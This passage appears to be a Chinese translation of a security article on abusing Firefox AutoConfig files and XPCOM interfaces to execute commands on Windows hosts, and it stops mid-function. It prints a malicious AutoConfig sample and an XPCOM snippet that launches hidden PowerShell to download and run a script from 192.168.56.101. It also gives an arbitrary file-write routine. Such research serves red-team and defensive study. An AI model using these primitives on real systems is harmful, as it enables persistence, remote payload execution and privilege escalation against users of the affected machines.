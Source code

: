 典型的`AutoConfig`文件如下所示，其中包含用来启动`calc.exe`的XPCOM：

```
// Any comment. You must start the file with a single-line comment!
defaultPref("browser.startup.homepage", "https://www.mdsec.co.uk/");
// Added malicious code starts here.
var proc = Components.classes["@mozilla.org/process/util;1"]
                       .createInstance(Components.interfaces.nsIProcess);
var file = Components.classes["@mozilla.org/file/local;1"]
                       .createInstance(Components.interfaces.nsIFile);    
file.initWithPath("C:\\Windows\\System32\\calc.exe");
proc.init(file);
var args = [""];
proc.run(false,args,args.length);
```

如果攻击者具备这些文件的“写”权限，如果存在不安全的GPO，那么攻击者就能修改合法文件，在应用了该GPO的用户主机上运行任意代码。

需要注意的是，有时候Firefox安装目录不在`Program Files`目录中（比如`D:\Mozilla Firefox`），如果没有针对非特权用户限制写权限，此时还会出现权限提升攻击场景。



## 0x04 危险操作原语

XPCOM提供了与底层操作系统配合使用的大量接口及类，因此我们可以通过各种方式实现命令执行。在下文中，我们将讨论如何组合某些原语实现命令执行。

### <a class="reference-link" name="%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C"></a>命令执行

首先我们可以使用`nsIProcess`及`nsIFile`接口简单实现命令执行：

```
var proc = Components.classes["@mozilla.org/process/util;
                       .createInstance(Components.interfaces.nsIProcess);
var file = Components.classes["@mozilla.org/file/local;1"]
                       .createInstance(Components.interfaces.nsIFile);    
file.initWithPath("C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe");
proc.init(file);
var args = ["-nop", "-w", "hidden", "-c", "$b=new-object net.webclient;IEX $b.downloadstring('http://192.168.56.101/test.ps1');"];
proc.run(false,args,args.length);

```

PowerShell会作为Firefox子进程来执行：

[![](./img/203840/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01fd4f445457a6ced2.png)

### <a class="reference-link" name="%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E5%86%99%E5%85%A5"></a>任意文件写入

我们可以使用`nsIFileOutputStream`接口将任意文本及二进制文件写入文件系统中：

```
function writeText(test_str, out_file) {
    var file = Components.classes["@mozilla.org/file/local;1"]
                    .createInstance(Components.interfaces.nsIFile);
    file.initWithPath(out_file);
    var outStream = Components.classes["@mozilla.org/network/file-output-stream;1"].createInstance(Components.interfaces.nsIFileOutputStream);
    outStream.init(file, 0x02 | 0x08 | 0x20, 0666, 0); 
    var converter = Components.classes["@mozilla.org/intl/converter-output-stream;1"].createInstance(Components.interfaces.nsIConverterOutputStream);
    converter.init(outStream, "UTF-8", 0, 0);
    converter.writeString(test_str);
    converter.close();
}

function writeBinary(out_file) {
```